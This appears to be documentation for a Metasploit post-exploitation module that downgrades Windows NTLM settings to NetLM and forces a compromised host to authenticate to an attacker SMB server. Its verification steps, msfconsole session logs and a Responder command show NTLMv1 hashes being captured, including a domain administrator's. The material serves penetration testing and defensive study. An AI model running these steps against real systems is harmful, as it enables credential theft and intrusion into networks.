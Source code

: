 ## Vulnerable Application

This module changes the system `LmCompatibilityLevel` registry value
to enable sending LM challenge hashes and initiates a SMB connection
to the host specified in the SMBHOST module option. If an SMB server
is listening, it will receive the NetLM hashes for the session user.


## Verification Steps

1. Start msfconsole
2. Get a session
3. Do: `use post/windows/gather/netlm_downgrade`
4. Do: `set SESSION <session id>`
5. Start a SMB server to capture hashes
6. Do: `set SMBHOST <SMB server IP address>`
7. Do: `run`

## Options


### SMBHOST

IP address of SMB server to capture hashes.


## Scenarios

### Windows 11 Pro 10.0.22000 Build 22000 x64

```
msf6 > use auxiliary/server/capture/smb
msf6 auxiliary(server/capture/smb) > run
[*] Auxiliary module running as background job 2.

[*] Server is running. Listening on 0.0.0.0:445
[*] Server started.
msf6 auxiliary(server/capture/smb) > use post/windows/gather/netlm_downgrade 
msf6 post(windows/gather/netlm_downgrade) > set session 1
session => 1
msf6 post(windows/gather/netlm_downgrade) > run

[*] Running module against WINDEV2110EVAL (192.168.200.140)
[*] NetLM authentication is disabled (LmCompatibilityLevel: nil). Enabling ...
[+] NetLM authentication is enabled
[*] Establishing SMB connection to 192.168.200.130
[+] Received SMB connection on Auth Capture Server!
[SMB] NTLMv1-SSP Client     : 192.168.200.140
[SMB] NTLMv1-SSP Username   : WINDEV2110EVAL\User
[SMB] NTLMv1-SSP Hash       : User::WINDEV2110EVAL:414a0d26193abde800000000000000000000000000000000:44d90728eeb025c1dcf4730a0282422614cbc8e590e99a11:b0e33cde858f04d5

[+] SMB server 192.168.200.130 should now have NetLM hashes
[*] Restoring original LM compatibility level (LmCompatibilityLevel: nil)
[*] Post module execution completed
msf6 post(windows/gather/netlm_downgrade) > 
```

### Windows Server 2008 SP1 (x64)

```
msf6 > use auxiliary/server/capture/smb
msf6 auxiliary(server/capture/smb) > run
[*] Auxiliary module running as background job 2.

[*] Server is running. Listening on 0.0.0.0:445
[*] Server started.
msf6 auxiliary(server/capture/smb) > use post/windows/gather/netlm_downgrade 
msf6 post(windows/gather/netlm_downgrade) > set smbhost 192.168.200.130
smbhost => 192.168.200.130
msf6 post(windows/gather/netlm_downgrade) > set session 1
session => 1
msf6 post(windows/gather/netlm_downgrade) > run

[*] Running module against WIN-17B09RRRJTG (192.168.200.218)
[*] NetLM authentication is disabled (LmCompatibilityLevel: 3). Enabling ...
[+] NetLM authentication is enabled (LmCompatibilityLevel: 0)
[*] Establishing SMB connection to 192.168.200.130
[+] Received SMB connection on Auth Capture Server!
[SMB] NTLMv1-SSP Client     : 192.168.200.218
[SMB] NTLMv1-SSP Username   : CORP\corpadmin
[SMB] NTLMv1-SSP Hash       : corpadmin::CORP:de7f490cc7f7f8a700000000000000000000000000000000:8a34755c17fdbd4f1d7338b5ed7617e2000f071f05869f2e:c30fd80a6709381b

[+] SMB server 192.168.200.130 should now have NetLM hashes
[*] Restoring original LM compatibility level (LmCompatibilityLevel: 3)
[*] Post module execution completed
msf6 post(windows/gather/netlm_downgrade) > 
```

Alternatively, the SMB connection can captured using [Responder](https://github.com/lgandx/Responder):

```
$ sudo responder -A -I eth0 --lm -v

[...]

[SMB] NTLMv1 Client   : 192.168.200.218
[SMB] NTLMv1 Username : CORP\corpadmin
[SMB] NTLMv1 Hash     : corpadmin::CORP:3FFCF0AED51EF9784B17BF71859355CA0FF968A42BF925D4:3FFCF0AED51EF9784B17BF71859355CA0FF968A42BF925D4:07168acbca2d7e8e
```

